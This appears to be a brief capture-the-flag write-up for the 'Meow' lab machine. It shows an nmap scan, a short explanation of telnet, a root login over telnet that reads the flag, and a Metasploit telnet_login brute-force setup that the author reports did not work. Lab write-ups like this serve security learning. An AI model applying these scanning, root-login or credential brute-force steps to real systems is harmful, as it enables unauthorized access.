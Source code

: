 
Nmap scanning :

~~~
nmap 10.129.204.160 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 09:03 EDT
Nmap scan report for 10.129.204.160
Host is up (0.42s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.13 seconds
~~~


after the nmap scan we find that telnet service has been running  in the machine

telnet:

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.
telnet is run in 23 port of the server
this protocol used in application layer client server protocol that provides terminal session to remote host

the user name root 

~~~
root@Meow:~# whoami
root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
~~~


in this lab we learn about telnet and brute force in telnet protocol using metasploit

~~~
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 
RHOSTS => 10.129.204.160
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(telnet_login) > run
~~~
this exploit does not work


successfully finished this lab 🔥🔥





